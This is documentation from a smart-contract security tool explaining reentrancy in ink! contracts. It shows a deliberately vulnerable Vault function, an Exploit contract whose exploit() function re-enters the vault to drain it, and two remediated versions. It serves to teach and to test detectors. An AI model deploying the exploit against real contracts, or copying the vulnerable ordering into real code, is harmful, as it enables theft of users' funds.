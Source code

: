 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `High`
* Detectors: [`reentrancy`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy)
* Test Cases: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2) 

Smart contracts can call other contracts and send tokens to them. These 
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control 
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for 
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts: 
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance, 
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call 
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the 
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the 
contract to call, the transferred_value method is used to specify the amount 
of balance to transfer, and the exec_input method is used to specify the 
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector 
will allow us to repeatedly withdraw balance from the contract, emptying the 
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```
### Deployment
Vault and Exploit files can be found under the directories 
[./vulnerable-example/exploit](./vulnerable-example/exploit/) and 
[./vulnerable-example/vault](./vulnerable-example/vault/). 
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the 
Check-Effect-Interaction pattern, a best practice that indicates that external 
calls should be the last thing to be executed in a function. In this example, 
this can be done by inserting the balance before transferring the value (see 
[./remediated-example/remediated-example-1](./remediated-example/remediated-example-1/)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Alternatively, if reentrancy by an external contract is not needed, the 
`set_allow_reentry(true)` should be removed altogether (see 
[./remediated-example/remediated-example-2](./remediated-example/remediated-example-2/)). 
This is equivalent in Substrate to using a 
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard) 
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://stermi.medium.com/the-ethernaut-challenge-9-solution-re-entrancy-635303881a4f)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)
